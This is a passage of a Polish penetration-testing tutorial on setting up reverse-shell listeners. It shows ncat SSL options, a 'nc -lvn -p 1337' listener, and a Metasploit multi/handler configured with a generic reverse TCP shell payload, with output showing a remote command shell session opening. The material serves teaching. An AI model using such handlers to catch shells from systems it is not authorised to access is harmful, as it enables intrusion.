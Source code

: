 ```bash
      --ssl-cert             Specify SSL certificate file (PEM) for listening
      --ssl-key              Specify SSL private key (PEM) for listening
      --ssl-verify           Verify trust and domain name of certificates
      --ssl-trustfile        PEM file containing trusted SSL certificates
      --ssl-ciphers          Cipherlist containing SSL ciphers to use
      --ssl-alpn             ALPN protocol list to use.
      --version              Display Ncat's version information and exit
```
# Jak to jest w praktyce?
Uff, wstęp już przeszliśmy, czas przejść do działania. 
{: .text-justify}
## Nasłuchiwanie
{: .text-justify}
Na szczęście aby nasłuchiwać, nie trzeba się przejmować z jakiej rodziny jest **nc**. Użycie tego programu, mimo że z dwóch rodzin, wygląda to podobnie. Później jeszcze opiszę moduł nasłuchujący z **Metasploita**.
{: .text-justify}
### Netcat (tradycyjny i OpenBSD)
{: .text-justify}
Wpisujemy
{: .text-justify}
```bash
nc -lvn -p 1337
```
Pokazuje się komunikat:
{: .text-justify}
```bash
Listening on 0.0.0.0 1337
```
Jeżeli się połączymy to powinniśmy widzieć mniej więcej taką odpowiedź:
{: .text-justify}
```bash
Connection received on 172.x.x.xx 37052
```
## Metasploit - moduł exploit(multi/handler)
Włączamy **Metasploit** i uruchamiamy poniższe komendy:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > set lhost eth0
lhost => 172.16.1.89
msf6 exploit(multi/handler) > run -j

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.89:1337 
```
Jeżeli wszystko poszło dobrze:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > [*] Command shell session 2 opened (172.16.1.89:1337 -> 172.16.1.33:58520) at 2023-12-19 18:29:07 +0100

msf6 exploit(multi/handler) > sessions 

Active sessions
```